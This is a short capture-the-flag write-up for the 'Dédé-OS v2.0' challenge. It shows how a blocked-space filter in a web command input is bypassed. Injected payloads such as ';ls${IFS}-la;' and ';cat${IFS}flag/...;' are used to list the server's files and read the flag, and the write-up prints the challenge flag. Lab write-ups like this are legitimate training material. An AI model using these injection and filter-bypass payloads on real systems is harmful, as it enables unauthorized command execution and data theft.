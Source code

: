 # Dédé-OS v2.0

### Description

The owner is aware of your talent, he challenges you again.

### Solution

In this seconde episode of Dédé-OS, the administrator seems to have fixed an issue.
If we input `;ls;` it works, but spaces are not allowed.

```bash
$ ;ls -l;

Malicious attack detected.
```
The thing is we can't put spaces in commands because it is blocked by a filter.

Alternatively there is the `$IFS` variable which is empty.

```bash
$ echo "==${IFS}=="
==
==
```
Let's try this
```bash
$ ;ls${IFS}-la;

total 20
dr-xr-xr-x    1 root     root          4096 Nov 28 18:34 .
drwxr-xr-x    1 root     root          4096 Dec  3 13:36 ..
dr-xr-xr-x    1 root     root          4096 Nov 28 02:11 flag
-r-xr-xr-x    1 root     root          1417 Nov 28 02:11 index.php
-r-xr-xr-x    1 root     root           778 Nov 28 02:11 style.css
```
It works !

After exploring the server, the flag is here :
```bash
$ ;cat${IFS}flag/it/is/soon/here/flag.md;
```

Flag : `H2G2{w0w_4gaIN??_w1ll_b3_h4rdER_n3xT_T1me}`